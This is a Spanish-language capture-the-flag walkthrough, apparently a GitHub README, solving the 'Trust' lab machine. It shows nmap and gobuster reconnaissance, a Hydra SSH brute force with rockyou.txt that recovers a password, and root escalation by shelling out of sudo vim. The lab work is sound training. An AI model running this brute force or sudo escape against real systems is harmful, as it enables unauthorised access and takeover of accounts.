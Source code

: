 # Maquina-Trust 
## Resolviendo maquina-Trust de "El Pingüino de Mario" 

> Paso N°:1 Scaneo con nmap. (Fase de reconocimiento)

```bash
nmap -A 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-17 09:40 -03
Nmap scan report for 172.17.0.2
Host is up (0.000094s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey:
| 256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3
(ECDSA)
|_ 256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b
(ED25519)
80/tcp open http Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.49 seconds
```
![scaneo1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/839fd0e6-ddae-4b03-ad92-ea861a58cfa6)

## Paso N°2: Buscamos alguna pista en la web.
### _Ya que podemos ver en el scaneo de nmap que el puerto "80/tcp open http Apache httpd 2.4.57 ((Debian))" esta abierto, asi que ponemos "http://172.17.0.2" en el navegador para ver que muestra:_

![scaneo2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4e677bca-cea9-4c82-8f11-cc9d40e33d8a)


## Paso N°3: Enumeracion usando gobuster.

```bash
gobuster dir -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak,php.bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
![scaneo3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/8ebee023-93c2-44f5-9310-f141b58d1928)



## Paso N°4: Revisar y utilizar lo encontrado.

### _En éste caso vemos un "/secret.php" el cual vamos a usar poniendolo en la web como "http://172.17.0.2/secret.php" ,en la salida nos encontramos con un mensaje que dice:_ 
> mario, ésta web no es vulnerable.

![scaneo4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/116d220c-227e-4319-ab35-499b67743eba)

### _Asi que como nos da un nombre (Mario) podemos usarlo de prueba para ver si podemos obtener acceso por medio del ssh,
pero como no tenemos la contraseña vamos a usar ataque de fuerza bruta en éste caso con hydra_

## Paso N°5: Ataque de Fuerza Bruta con Hydra.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-17 10:22:44
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-17 10:22:52
```
![scaneo5](https://github.com/EzeTauil/maquina-Trust/assets/118028611/72496ff2-a25a-4391-b968-884e9088714b)

## Paso N°6: Explotacion-Acceso por ssh.
### Con el ataque de Hydra encontramos la contraseña para el usuario mario la cual es "chocolate", asi que ahora nos conectamos a traves de ssh de la siguiente manera:

```bash
ssh mario@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux 10340d532be9 6.6.15-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-05-17) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```
![acceso1](https://github.com/EzeTauil/maquina-Trust/assets/118028611/48290ae0-a9fb-40d7-8869-f3bb7bab4586)


## Paso N°7: Escalando Privilegios.

```bash
~$ whoami
mario
```
![acceso2](https://github.com/EzeTauil/maquina-Trust/assets/118028611/4050709c-8b2c-44e3-9aa3-56f4a0a00c73)


### _Procedemos a verificar que comandos podemos ejecutar como usuario root, lo hacemos con el comando (sudo -l)_

```bash
mario@10340d532be9:~$ sudo -l  
[sudo] password for mario: 
Matching Defaults entries for mario on 10340d532be9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 10340d532be9:
    (ALL) /usr/bin/vim
```
![acceso3](https://github.com/EzeTauil/maquina-Trust/assets/118028611/878ea32a-5cf4-4c02-8436-52109abf2a36)

### _Aca vemos que podemos usar "vim" como usuario root, asi que podemos explotar ésto para obtener una shell con privilegios de root, lo hacemos de la siguiente manera: (sudo vim) una vez adentro precionamos "Esc" y despues ":" y escribimos "!sh" de manera que el comando final quedaria asi ":!sh" y precionamos "Enter" ésto nos abre la shell como usuario root, lo comprobamos usando el comando "whoami" , si nos devuelve "root" es que lo logramos.

![acceso4](https://github.com/EzeTauil/maquina-Trust/assets/118028611/c13dd59c-84a2-4b3b-a0a2-4ed5b75bdc4e)

## Obteniendo Shell con acceso root:

![accesoroot](https://github.com/EzeTauil/maquina-Trust/assets/118028611/5afc3cb7-1047-4137-8a17-def53769b98d)







